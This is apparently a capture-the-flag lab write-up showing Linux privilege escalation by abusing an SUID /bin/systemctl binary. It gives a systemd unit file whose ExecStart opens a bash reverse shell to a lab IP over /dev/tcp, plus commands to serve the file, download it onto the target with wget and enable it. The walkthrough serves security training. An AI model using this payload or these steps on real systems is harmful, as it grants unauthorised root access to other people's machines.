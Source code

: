 ### Q1: On the system, search for all SUID files. Which file stands out?

#### Answer: /bin/systemctl

What is systemctl ?
systemctl control the systemd system and service manager
So next step is to create on our linux machine a service that grant us a shell
lets start by creating the service
```bash
touch root.service
gedit root.service
```
here is the payload inside root.service file

```
[Unit]
Description= testing priv-esca

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c ‘bash -i >& /dev/tcp/10.14.93.236/4444 0>&1’

[Install]
WantedBy=multi-user.target
```
Now we need to start a http server on our linux machine to transfer the file to target machine 
```bash
python3 -m http.server — bind [Kali_IP] 8080
```
On the target machine shell we need to navigate to /tmp and download the service
```bash
cd tmp
wget http://[Kali_IP]:8080/root.service
```
  <img src="/images/vulnv/vuln15.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Enable the service command 
```bash
/bin/systemctl enable /tmp/root.service
```
  <img src="/images/vulnv/vuln16.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />
